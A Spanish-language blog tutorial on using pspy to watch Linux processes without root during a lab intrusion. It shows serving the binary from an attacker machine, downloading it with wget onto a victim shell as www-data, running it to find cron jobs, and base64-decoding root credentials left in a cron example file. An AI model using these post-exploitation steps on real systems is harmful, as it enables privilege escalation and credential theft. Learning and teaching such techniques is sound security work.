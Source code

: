 ```yaml
---
date: 2022-05-20T01:30:05.000Z
layout: post
comments: true
title: PSPY
subtitle: 'indagación de procesos de Linux sin privilegios'
description: >-
image: >-
    http://imgfz.com/i/HkurWB5.png
optimized_image: >-
    http://imgfz.com/i/HkurWB5.png
category: ciberseguridad
tags:
  - privilegios
  - CRON
  - hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una herramienta de línea de comandos diseñada para husmear en los procesos sin necesidad de permisos de root. Le permite ver los comandos ejecutados por otros usuarios, trabajos cron, etc. mientras se ejecutan.

### Transferencia

Primero desde nuestra máquina atacante nos creamos un servidor web para descargarlo desde la máquina víctima ```pspy```:

```bash
┌──(root㉿kali)-[/opt/pspy]
└─# python -m http.server     
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
-127.0.0.1 - - [10/May/2022 03:21:48] "GET / HTTP/1.1" 200 -
127.0.0.1 - - [10/May/2022 03:21:49] code 404, message File not found
127.0.0.1 - - [10/May/2022 03:21:49] "GET /favicon.ico HTTP/1.1" 404 -
10.1.1.22 - - [10/May/2022 03:23:34] "GET /pspy64 HTTP/1.1" 200 -
```

Ahora lo descargamos desde la máquina víctima:

```bash
www-data@demo:/tmp$ wget http://10.1.1.19:8000/pspy64
--2022-05-10 09:23:33--  http://10.1.1.19:8000/pspy64
Connecting to 10.1.1.19:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3078592 (2.9M) [application/octet-stream]
Saving to: 'pspy64'

pspy64                        100%[==============================================>]   2.94M  --.-KB/s    in 0.03s   

2022-05-10 09:23:33 (115 MB/s) - 'pspy64' saved [3078592/3078592]

www-data@demo:/tmp$ ls
pspy64
```

### Ejecución

Ahora procedemos a asignar los permisos correspondientes y lo ejecutamos:

```bash
www-data@demo:/tmp$ chmod +x pspy64 
www-data@demo:/tmp$ ./pspy64
```
![1](http://imgfz.com/i/kHrpMmB.png)

Al ejecutarlo podemos ver los procesos en ejecución y si seguimos bajando detectaremos tareas CRON:

![2](http://imgfz.com/i/1QnWA0M.png)

CRON es un administrador regular de procesos en segundo plano, que ejecuta procesos o guiones a intervalos regulares (por ejemplo, cada minuto, día, semana o mes). Esto significa que pueden ser utilizados de forma maliciosa para detectar archivos que puedan servir para escalar privilegios, o bien encontrar datos sensibles expuestos. Por ejemplo:

![3](http://imgfz.com/i/O2bo61d.png)

```bash
www-data@demo:/tmp$ cd ..
www-data@demo:/$ cat /usr/share/doc/examples/cron.sh

# cron.sh sample file
# 0 20 * * * /bin/goahead --parameter: LXUgcm9vdCAtcCByZnZiZ3QhIQ==

┌──(root㉿kali)-[/pspy]
└─# echo 'LXUgcm9vdCAtcCByZnZiZ3QhIQ==' | base64 -d; echo
-u root -p rfvbgt!!
```

En este caso se encontraron credenciales expuestas en la máquina!
